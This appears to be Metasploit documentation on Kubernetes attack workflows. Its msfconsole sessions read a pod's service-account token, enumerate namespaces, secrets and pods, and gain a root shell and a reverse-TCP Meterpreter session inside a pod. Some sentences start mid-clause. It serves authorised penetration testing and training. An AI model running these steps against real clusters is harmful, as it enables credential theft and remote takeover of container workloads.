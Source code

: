## Kubernetes Workflows
In the future there may be more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search kubernetes
```

### Lab Environment
### Kubernetes Enumeration
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:
```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the Kubernetes API is publicly accessible and you have a JWT Token:
```msf
msf6 > use cloud/kubernetes/enum_kubernetes
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
```

By default the `run` command will enumerate all resources available, but you can also specify which actions you would like to perform:
```msf
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
```

More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:
```msf
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:
```msf
msf6 > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```

